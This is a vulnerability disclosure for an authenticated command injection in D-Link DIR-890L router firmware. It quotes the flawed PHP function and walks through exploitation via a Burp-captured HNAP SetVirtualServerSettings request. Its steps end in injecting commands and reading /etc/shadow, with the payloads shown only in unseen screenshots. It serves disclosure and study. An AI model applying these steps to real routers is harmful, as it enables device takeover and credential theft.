# D-Link DIR-890L RCE
Affected Version: <= v1.22B01 Hotfix (latest)

Firmware: [Here](http://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DIR-890L)

This model has reached the end of its life-cycle. The resources associated with these products have ceased their development and are no longer supported.
D-Link Systems, Inc. recommends retiring these products and replacing them with products that receive firmware updates.

## Vulnerability
In its firmware we can find a function `getWOLMAC` in `SetVirtualServerSettings.php`
```php
function getWOLMAC($ipv4addr)
{
	$cmd = "scut -p ".$ipv4addr." -f 3 /proc/net/arp";
	setattr("/runtime/wakeonlan/mac", "get", $cmd);
	$mac = get("", "/runtime/wakeonlan/mac");
	del("/runtime/wakeonlan/mac");
	return $mac;
}
```
The `$cmd` concatenates `$ipv4addr` directly into command without filtering, and it is called at
```php
		$ipv4addr = get("x", "LocalIPAddress");
        ...
		if($description == "Wake-On-Lan")
		{
			$wolmac = getWOLMAC($ipv4addr);
			set($vsvr_entry.":".$InDeX."/wakeonlan_mac", $wolmac);
		}
```
So When you set `$description` (corresponding to virtual server name) as `"Wake-On-Lan"`, there may exist `RCE`(remote command execution) in Virtual Server related pages: `/VirtualServer.html`.

## Exploit
- It requires authentication, so log in first.



- Then visit [Virtual Server page (/VirtualServer.html)](http://192.168.0.1/VirtualServer.html) which is inaccessible through panel.


- Add a rule named `Wake-On-Lan`.



- Start `burpsuite` before click `Save` button and capture the following packet:

```h
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/xml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "http://purenetworks.com/HNAP1/SetVirtualServerSettings"
HNAP_AUTH: A4A816AE6CF2AC5537B0EB390FFB591C 1436839665
Content-Length: 765
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/VirtualServer.html
Cookie: uid=ZeNYZag3Gw

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
	<soap:Body>
		<SetVirtualServerSettings>
			<VirtualServerList>
				<VirtualServerInfo>
					<Enabled>true</Enabled>
					<VirtualServerDescription>Wake-On-Lan</VirtualServerDescription>
					<ExternalPort>1</ExternalPort>
					<InternalPort>1</InternalPort>
					<ProtocolType>TCP</ProtocolType>
					<ProtocolNumber>6</ProtocolNumber>
					<LocalIPAddress>192.168.0.100</LocalIPAddress>
					<ScheduleName></ScheduleName>
				</VirtualServerInfo>
			</VirtualServerList>
		</SetVirtualServerSettings>
	</soap:Body>
</soap:Envelope>
```

- Prepare a http server then:  


- Use `Repeater` module to test `RCE`(remote command execution):


- And we get:


- Test commands injection and read `/etc/shadow`:








